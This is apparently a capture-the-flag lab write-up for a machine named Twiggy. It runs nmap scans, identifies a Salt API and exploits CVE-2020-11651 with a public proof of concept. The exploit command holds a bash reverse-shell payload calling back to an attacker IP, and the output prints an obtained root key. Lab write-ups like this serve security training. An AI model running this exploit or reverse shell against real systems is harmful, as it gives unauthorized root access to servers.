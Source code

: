 # Twiggy

## Gaining Access

Nmap scan:

```
$ nmap -p- --min-rate 4000 192.168.219.62
Starting Nmap 7.93 ( https://nmap.org ) at 2023-07-05 11:10 +08
Nmap scan report for 192.168.219.62
Host is up (0.17s latency).
Not shown: 65529 filtered tcp ports (no-response)
PORT     STATE SERVICE
22/tcp   open  ssh
53/tcp   open  domain
80/tcp   open  http
4505/tcp open  unknown
4506/tcp open  unknown
8000/tcp open  http-alt
```

Did a detailed `nmap` scan as well:

```
$ sudo nmap -p 22,53,80,4505,4506,8000 -sC -sV --min-rate 3000 192.168.219.62      
[sudo] password for kali: 
Starting Nmap 7.93 ( https://nmap.org ) at 2023-07-05 11:11 +08
Nmap scan report for 192.168.219.62
Host is up (0.18s latency).

PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 7.4 (protocol 2.0)
| ssh-hostkey: 
|   2048 447d1a569b68aef53bf6381773165d75 (RSA)
|   256 1c789d838152f4b01d8e3203cba61893 (ECDSA)
|_  256 08c912d97b9898c8b3997a19822ea3ea (ED25519)
53/tcp   open  domain  NLnet Labs NSD
80/tcp   open  http    nginx 1.16.1
|_http-title: Home | Mezzanine
|_http-server-header: nginx/1.16.1
4505/tcp open  zmtp    ZeroMQ ZMTP 2.0
4506/tcp open  zmtp    ZeroMQ ZMTP 2.0
8000/tcp open  http    nginx 1.16.1
|_http-title: Site doesn't have a title (application/json).
|_http-open-proxy: Proxy might be redirecting requests
|_http-server-header: nginx/1.16.1
```

### Salt API --> RCE

Port 8000 looked the most interesting since it was only returning JSON data. Visiting it just shows a few 'clients':

<figure><img src="../../../.gitbook/assets/image (937).png" alt=""><figcaption></figcaption></figure>

When we view the headers, we can see that this is using a program called Salt API:

<figure><img src="../../../.gitbook/assets/image (3620).png" alt=""><figcaption></figcaption></figure>

There are some exploits for Salt here:

```
$ searchsploit salt    
----------------------------------------------------------- ---------------------------------
 Exploit Title                                             |  Path
----------------------------------------------------------- ---------------------------------
Oracle MySQL / MariaDB - Insecure Salt Generation Security | linux/remote/38109.pl
SaltOS - 'download.php' Cross-Site Scripting               | php/webapps/37642.txt
SaltOS Erp Crm 3.1 r8126 - Database File Download          | php/webapps/45734.txt
SaltOS Erp Crm 3.1 r8126 - SQL Injection                   | php/webapps/45731.txt
SaltOS Erp Crm 3.1 r8126 - SQL Injection (2)               | php/webapps/45733.txt
Saltstack 3000.1 - Remote Code Execution                   | multiple/remote/48421.txt
----------------------------------------------------------- ---------------------------------
```

The last one looks like the most reliable, and it works:

```
$ python3 poc.py --master 192.168.219.62 --exec 'bash -i >& /dev/tcp/192.168.45.182/80 0>&1'
[!] Please only use this script to verify you have correctly patched systems you have permission to access. Hit ^C to abort.
/home/kali/.local/lib/python3.11/site-packages/salt/transport/client.py:27: DeprecationWarning: This module is deprecated. Please use salt.channel.client instead.
  warn_until(
[+] Checking salt-master (192.168.219.62:4506) status... ONLINE
[+] Checking if vulnerable to CVE-2020-11651... YES
[*] root key obtained: EhN8Uknfm4lWhieX13oN5C+NiHo63BzPifodAAOygyu3DL3ZUnCX4BEV9cvD/zT4NfCHQ22Hq7s=
[+] Attemping to execute bash -i >& /dev/tcp/192.168.45.182/80 0>&1 on 192.168.219.62
[+] Successfully scheduled job: 20230705031527947368
```

<figure><img src="../../../.gitbook/assets/image (782).png" alt=""><figcaption></figcaption></figure>

Rooted!
